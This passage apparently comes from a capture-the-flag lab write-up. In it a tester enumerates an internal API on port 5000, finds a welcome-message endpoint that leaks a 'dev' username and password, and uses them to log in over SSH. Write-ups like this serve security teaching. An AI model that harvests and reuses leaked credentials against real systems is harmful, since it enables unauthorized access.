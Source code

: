 --- Image of the results showing that port 5000 is open.


The tester found that port 5000 returned a successful result. Viewing the file reveals the root page of an API. The Root page shows further pages. Testing the other pages, the tester.

```
{"messages":[{"promotions":{"description":"Retrieve a list of all the promotions in our library.","endpoint":"/api/latest/metadata/messages/promos","methods":"GET"}},{"coupons":{"description":"Retrieve the list of coupons to use in our library.","endpoint":"/api/latest/metadata/messages/coupons","methods":"GET"}},{"new_authors":{"description":"Retrieve the welcome message sended to our new authors.","endpoint":"/api/latest/metadata/messages/authors","methods":"GET"}},{"platform_use":{"description":"Retrieve examples of how to use the platform.","endpoint":"/api/latest/metadata/messages/how_to_use_platform","methods":"GET"}}],"version":[{"changelog":{"description":"Retrieve a list of all the versions and updates of the api.","endpoint":"/api/latest/metadata/changelog","methods":"GET"}},{"latest":{"description":"Retrieve the last version of api.","endpoint":"/api/latest/metadata","methods":"GET"}}]}

```

The "http://127.0.0.1:5000/api/latest/metadata/messages/authors" end contains credentials for the "dev" account.


```
{"template_mail_message":"Welcome to the team! We are thrilled to have you on board and can't wait to see the incredible content you'll bring to the table.\n\nYour login credentials for our internal forum and authors site are:\nUsername: dev\nPassword: dev080217_devAPI!@\nPlease be sure to change your password as soon as possible for security purposes.\n\nDon't hesitate to reach out if you have any questions or ideas - we're always here to support you.\n\nBest regards, Editorial Tiempo Arriba Team."}

```

The tester used the credentials to log into the host eith SSH.

```
└─$ ssh dev@10.10.11.20
dev@10.10.11.20's password: 
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 5.15.0-112-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Tue Jul  9 01:23:19 PM UTC 2024

  System load:           0.0
  Usage of /:            60.9% of 6.35GB
  Memory usage:          12%
  Swap usage:            0%
  Processes:             229
  Users logged in:       0
  IPv4 address for eth0: 10.10.11.20
  IPv6 address for eth0: dead:beef::250:56ff:fe94:df97


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
```